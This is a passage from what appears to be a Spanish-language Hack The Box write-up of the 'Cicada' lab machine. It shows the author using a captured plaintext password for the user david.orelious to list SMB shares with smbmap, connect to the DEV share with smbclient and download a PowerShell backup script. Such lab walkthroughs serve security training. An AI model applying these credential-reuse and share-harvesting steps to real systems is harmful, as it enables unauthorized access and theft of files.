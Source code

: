 
Con las credenciales de `david.orelious`, verifico a qué recursos compartidos tiene acceso.

```terminal
/home/kali/Documents/htb/machines/cicada:-$ smbmap -u david.orelious -p 'aRt$Lp#7t*VQ!3' -H 10.10.11.35
```

![](assets/img/htb-writeup-cicada/cicada4_1.png)

accedo al recurso compartido `DEV` utilizando smbclient.

```terminal
/home/kali/Documents/htb/machines/cicada:-$ smbclient /\\10.10.11.35/\DEV -U david.orelious
Password for [WORKGROUP\david.orelious]: aRt$Lp#7t*VQ!3
```

![](assets/img/htb-writeup-cicada/cicada4_2.png)

Dentro de `DEV`, encuentro y descargo el archivo `Backup_script.ps1`.

```terminal
smb: \> get Backup_script.ps1

/home/kali/Documents/htb/machines/cicada:-$ cat Backup_script.ps1
```

![](assets/img/htb-writeup-cicada/cicada4_3.png)

